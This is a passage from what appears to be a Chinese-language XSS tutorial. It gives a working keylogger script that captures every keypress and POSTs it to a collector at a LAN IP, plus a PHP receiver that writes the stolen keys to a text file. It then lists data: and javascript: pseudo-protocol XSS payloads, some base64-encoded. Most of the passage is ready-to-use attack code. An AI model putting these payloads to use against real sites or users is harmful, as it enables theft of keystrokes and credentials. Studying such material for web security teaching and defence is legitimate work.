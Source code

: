   ```php
              <br><br>
              <input type="submit" name="submit" value="submit" />
          </form>
      </body>
  </html>
  
  #log.js文件执行恶意操作(获取到用户数据并通过指定url传递出去)
  document.onkeypress=function(evt){
      evt=evt?evt:window.event;
      key=String.fromCharCode(evt.keyCode?evt.keyCode:evt.charCode);
      if(key){
          var http = new XMLHttpRequest();
          var param = encodeURI(key);
          http.open("POST","http://192.168.41.46/xss/keyboard/log.php",true);
          http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
          http.send("key="+param);
      }
  }
  #log.php文件，log.js传递出的数据，并存储在txt文件中
  <?php
  $key=$_POST['key'];
  $logfile='result.txt';
  $fp=fopen($logfile,"a");
  fwrite($fp,$key);
  fclose($fp);
  ?>
  ```

  ****

  ### 4. JS伪协议

  ##### a. data://伪协议

  ```html
  <!--1. 编码内容为 <script>alert(1)</script>  -->
  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
  
  <!--2. 编码内容为 <script>alert(1)</script> -->
  <iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe>
  
  <!--3. -->
  <iframe src="data:text/html,<script>alert(1)</script>"></iframe>
  
  <!--4. 将部分字符url编码-->
  <iframe src="data:text/html,%3Cscript%3Ealert(1)%3C%2Fscript%3E"></iframe>
  ```

  ##### b. javascript伪协议

  ```html
  <a href="javascript:alert('a')">1</a>
  <img src='#' onerror="javascript:alert('a')"></img>
  ```
